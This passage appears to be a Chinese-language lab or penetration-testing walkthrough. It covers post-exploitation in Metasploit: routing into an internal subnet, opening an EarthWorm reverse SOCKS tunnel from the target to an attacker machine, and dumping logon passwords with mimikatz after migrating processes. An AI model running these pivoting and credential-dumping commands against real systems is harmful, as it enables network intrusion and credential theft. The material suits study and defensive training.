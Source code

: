 ![image-20210514155819089](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514155819089.png)

信息收集

![image-20210514155052708](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514155052708.png)

发现内网网段

![image-20210514155139075](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514155139075.png)

添加路由

```
run autoroute -s 192.168.138.0/24
```

![image-20210514155301699](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514155301699.png)

也可ew内网穿透，配合proxychains和其他工具进行内网信息收集

kali执行

```
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

上传ew_for_Win.exe至目标主机执行

```
ew_for_Win.exe -s rssocks -d 192.168.146.128 -e 1234
```

之后修改/etc/proxychains，加入

```
socks5 127.0.0.1 1080
```

![image-20210514161242845](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514161242845.png)

![image-20210514160919823](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514160919823.png)



回msf，使用mimikatz抓密码

```
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

![image-20210514161523232](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514161523232.png)

报错，这是因为，mimikatz是32位，不能访问64位的，那就给迁移到64位

```
ps
migrate 344
```
